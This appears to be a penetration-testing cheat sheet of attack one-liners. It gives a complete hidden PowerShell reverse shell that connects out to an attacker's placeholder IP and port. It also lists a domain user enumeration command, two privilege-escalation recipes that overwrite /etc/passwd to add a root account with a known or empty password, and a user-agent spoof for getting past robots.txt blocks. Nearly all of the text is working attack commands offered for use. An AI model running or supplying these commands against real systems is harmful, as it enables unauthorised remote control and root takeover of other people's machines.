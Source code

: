 ### PowerShell one-liners \(incl. file transfers\)

```text
https://www.puckiestyle.nl/
```

### Much Better PowerShell Reverse Shell One-Liner

```text
powershell -NoP -NonI -W Hidden -Exec Bypass "& {$ps=$false;$hostip='IP';$port=PORT;$client = New-Object System.Net.Sockets.TCPClient($hostip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..50000|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$cmd=(get-childitem Env:ComSpec).value;$inArray=$data.split();$item=$inArray[0];if(($item -eq '$ps') -and ($ps -eq $false)){$ps=$true}if($item -like '?:'){$item='d:'}$myArray=@('cd','exit','d:','pwd','ls','ps','rm','cp','mv','cat');$do=$false;foreach ($i in $myArray){if($item -eq $i){$do=$true}}if($do -or $ps){$sendback=( iex $data 2>&1 |Out-String)}else{$data2='/c '+$data;$sendback = ( &$cmd $data2 2>&1 | Out-String)};if($ps){$prompt='PS ' + (pwd).Path}else{$prompt=(pwd).Path}$sendback2 = $data + $sendback + $prompt + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```

### Post-Exploitation Enumerate all users of Domain

```text
net user /Domain
```

### Windows XP SP0/SP1 Privilege Escalation:

```text
https://sohvaxus.github.io/content/winxp-sp1-privesc.html
```

### SUID Flag on /usr/bin/cp command Privilege Escalation

```text
1. echo "bob:\$1\$-itnite\$VRvGqpGVibx/r9NPdLLTF1:0:0:root:/root:/bin/bash" >> /tmp/passwd
2. /usr/bin/cp /tmp/passwd /etc/passwd
3. su - bob (Password: bob)
```

### Writable /etc/passwd Privilege Escalation

```text
echo root::0:0:root:/root:/bin/bash > /etc/passwd

su
```

### Bypass robots.txt "You are not a search engine. Permission denied."

```text
Set User-Agent to "User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)"
```
